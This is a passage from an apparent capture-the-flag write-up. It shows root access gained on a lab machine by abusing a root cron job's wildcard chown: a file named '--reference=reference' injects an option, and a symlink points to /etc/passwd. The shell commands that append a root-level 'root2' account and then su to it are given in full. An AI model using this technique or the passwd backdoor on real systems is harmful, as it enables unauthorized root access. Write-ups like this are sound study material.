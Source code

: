 I don't recall doing this before but we can take advantage of this [wildcard](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/). 

We need a file that get's chowned to root, plus a reference and a symlink. First, we create our empty file (called reference in this case), and wait for the cron to fire:

{% highlight shell %}
beloved@beloved:/opt$ touch reference
beloved@beloved:/opt$ ls -lash
total 12K
4.0K drwxrwx---  2 root    beloved 4.0K Dec 22 11:28 .
4.0K drwxr-xr-x 18 root    root    4.0K May 19  2021 ..
4.0K -rw-------  1 beloved beloved 1.8K Jun 27 16:41 id_rsa
   0 -rw-r--r--  1 beloved beloved    0 Dec 22 11:28 reference
beloved@beloved:/opt$ date
Wed 22 Dec 2021 11:28:51 AM CET
beloved@beloved:/opt$ ls -lash
total 12K
4.0K drwxrwx---  2 root beloved 4.0K Dec 22 11:28 .
4.0K drwxr-xr-x 18 root root    4.0K May 19  2021 ..
4.0K -rw-------  1 root root    1.8K Jun 27 16:41 id_rsa
   0 -rw-r--r--  1 root root       0 Dec 22 11:28 reference
{% endhighlight %}

Now we can create our actual 'reference' (the names are slightly poorly chosen here, the first thing probably should've been called something else) plus our symlink to /etc/passwd:

{% highlight shell %}
beloved@beloved:/opt$ touch -- --reference=reference && ln -s /etc/passwd something
beloved@beloved:/opt$ ls -lash
total 12K
4.0K drwxrwx---  2 root    beloved 4.0K Dec 22 11:29  .
4.0K drwxr-xr-x 18 root    root    4.0K May 19  2021  ..
4.0K -rw-------  1 root    root    1.8K Jun 27 16:41  id_rsa
   0 -rw-r--r--  1 root    root       0 Dec 22 11:28  reference
   0 -rw-r--r--  1 beloved beloved    0 Dec 22 11:29 '--reference=reference'
   0 lrwxrwxrwx  1 beloved beloved   11 Dec 22 11:29  something -> /etc/passwd
{% endhighlight %}

Now we can add my old mate **root2** and we're away:

{% highlight shell %}
beloved@beloved:/opt$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> something
beloved@beloved:/opt$ su root2
Password: 
root@beloved:/opt# cd /root
root@beloved:~# ls -lash
total 60K
4.0K drwx------  8 root root 4.0K Jun 27 17:50 .
4.0K drwxr-xr-x 18 root root 4.0K May 19  2021 ..
4.0K -rw-------  1 root root  371 Jun 27 17:50 .bash_history
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K drwx------  3 root root 4.0K Jun  9  2021 .cache
4.0K drwxr-xr-x  3 root root 4.0K Jun 27 10:04 .gem
4.0K drwx------  3 root root 4.0K Jun 10  2021 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K May 24  2021 .local
4.0K -rw-------  1 root root 1.1K Jun 27 10:23 .mysql_history
4.0K drwxr-xr-x  4 root root 4.0K Jun 10  2021 .npm
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Jun 27 17:09 root.txt
4.0K -rw-r--r--  1 root root   66 Jun 27 16:06 .selected_editor
4.0K drwx------  2 root root 4.0K Jun 27 17:32 .ssh
4.0K -rw-r--r--  1 root root  173 Jun 11  2021 .wget-hsts
root@beloved:~#
{% endhighlight %}

Yes, 'easy' but not trivial and a bit left-field so worth making some notes on.
